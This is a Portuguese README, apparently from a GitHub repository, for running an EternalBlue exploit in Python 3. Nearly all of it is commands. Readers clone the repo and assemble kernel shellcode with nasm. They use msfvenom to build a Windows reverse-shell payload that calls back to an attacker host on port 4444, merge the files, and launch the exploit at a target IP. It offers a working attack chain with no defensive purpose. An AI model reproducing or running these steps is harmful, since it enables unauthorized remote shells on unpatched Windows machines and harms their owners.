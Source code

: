 # EternalBlue com Python3

##

### 1. Clonando o repositorio:

```
git clone https://github.com/hasecto/eternalblue_python3.git
```

## 2. Compilando o shellcode:

### x64

```
nasm -f bin shellcode/eternalblue_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin shellcode/eternalblue_x86.asm -o ./sc_x86_kernel.bin
```

## 3. Criando o payload:

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

## 4. Fazendo o Merge dos arquivos:

### x64
```
cat sc_x64_kernel.bin sc_x64_payload.bin > shell.bin
```
### x86
```
cat sc_x86_kernel.bin sc_x86_payload.bin > shell.bin
```

## 5. Exploit:

```
python3 eternalblue.py Alvo-IP shell.bin
```


